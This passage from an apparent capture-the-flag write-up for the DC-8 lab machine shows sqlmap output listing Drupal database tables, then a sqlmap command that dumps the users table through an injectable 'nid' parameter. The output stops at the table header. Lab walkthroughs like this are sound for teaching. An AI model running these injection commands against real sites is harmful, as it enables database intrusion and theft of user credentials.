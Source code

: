 ~~~
| node_type                   |
| queue                       |
| rdf_mapping                 |
| registry                    |
| registry_file               |
| role                        |
| role_permission             |
| search_dataset              |
| search_index                |
| search_node_links           |
| search_total                |
| semaphore                   |
| sequences                   |
| sessions                    |
| shortcut_set                |
| shortcut_set_users          |
| site_messages_table         |
| taxonomy_index              |
| taxonomy_term_data          |
| taxonomy_term_hierarchy     |
| taxonomy_vocabulary         |
| url_alias                   |
| users                       |
| users_roles                 |
| variable                    |
| views_display               |
| views_view                  |
| watchdog                    |
| webform                     |
| webform_component           |
| webform_conditional         |
| webform_conditional_actions |
| webform_conditional_rules   |
| webform_emails              |
| webform_last_download       |
| webform_roles               |
| webform_submissions         |
| webform_submitted_data      |
+-----------------------------+

[18:23:39] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/dc-8'

[*] ending @ 18:23:39 /2020-10-11/
~~~

Let's now dump the users table:

~~~
kali@kali:/data/DC_8/files$ sqlmap -u http://dc-8/?nid=3 -D d7db -T users --dump

[REDACTED]

Database: d7db                                                                                                                                                                                                                             
Table: users
[3 entries]
+-----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------------------+---------+---------------------------------------------------------+------------+---------+------------+--------+------------+---------+--------------------+-----------+------------+------------------+
~~~